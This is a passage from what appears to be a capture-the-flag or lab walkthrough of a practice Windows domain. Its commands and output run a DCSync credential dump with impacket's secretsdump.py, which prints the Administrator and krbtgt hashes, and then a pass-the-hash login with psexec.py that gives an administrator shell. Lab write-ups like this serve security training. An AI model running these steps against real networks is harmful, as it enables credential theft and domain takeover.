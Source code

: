 The user flag is under `C:\Users\svc_bes\Desktop\user.txt`.

## DCSync attack

Now we have access to the user `svc_bes` and we can go for the DCSync attack. We can use `secretsdump.py`from `impacket`:

```bash
┌──(kali㉿kali)-[~]
└─$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -dc-ip <MACHINE_IP> megacorp.local/svc_bes:Sheffield19@<MACHINE_IP>
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f9f700dbf7b492969aac5943dab22ff3:::
svc_bes:1104:aad3b435b51404eeaad3b435b51404ee:0d1ce37b8c9e5cf4dbd20f5b88d5baca:::
sandra:1105:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
PATHFINDER$:1000:aad3b435b51404eeaad3b435b51404ee:72d67f7817427a6c2fe2877249511a6c:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:056bbaf3be0f9a291fe9d18d1e3fa9e6e4aff65ef2785c3fdc4f6472534d614f
Administrator:aes128-cts-hmac-sha1-96:5235da455da08703cc108293d2b3fa1b
Administrator:des-cbc-md5:f1c89e75a42cd0fb
krbtgt:aes256-cts-hmac-sha1-96:d6560366b08e11fa4a342ccd3fea07e69d852f927537430945d9a0ef78f7dd5d
krbtgt:aes128-cts-hmac-sha1-96:02abd84373491e3d4655e7210beb65ce
krbtgt:des-cbc-md5:d0f8d0c86ee9d997
svc_bes:aes256-cts-hmac-sha1-96:2712a119403ab640d89f5d0ee6ecafb449c21bc290ad7d46a0756d1009849238
svc_bes:aes128-cts-hmac-sha1-96:7d671ab13aa8f3dbd9f4d8e652928ca0
svc_bes:des-cbc-md5:1cc16e37ef8940b5
sandra:aes256-cts-hmac-sha1-96:2ddacc98eedadf24c2839fa3bac97432072cfac0fc432cfba9980408c929d810
sandra:aes128-cts-hmac-sha1-96:c399018a1369958d0f5b242e5eb72e44
sandra:des-cbc-md5:23988f7a9d679d37
PATHFINDER$:aes256-cts-hmac-sha1-96:b918cf6ef0d04dc72cdfb040d9ffac663c28d2c358cbf35ab3466aa454cadfdc
PATHFINDER$:aes128-cts-hmac-sha1-96:44f15fe35fb206e80d660933a7c31af9
PATHFINDER$:des-cbc-md5:9b9e1089195273e0
[*] Cleaning up...
```

With that we have the domain administrator secret so we can impersonate him! Let's try to get a shell into the system now.

### Accessing the system as root

Now we can go for a Pass-the-Hash attack using `psexec.py` (Again from `impacket`):

```bash
┌──(kali㉿kali)-[~]
└─$ python3 /usr/share/doc/python3-impacket/examples/psexec.py -dc-ip <MACHINE_IP> megacorp.local/Administrator@<MACHINE_IP> -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on <MACHINE_IP>.....
[*] Found writable share ADMIN$
[*] Uploading file DVmUjbDh.exe
[*] Opening SVCManager on <MACHINE_IP>.....
[*] Creating service LUsD on <MACHINE_IP>.....
[*] Starting service LUsD.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.
```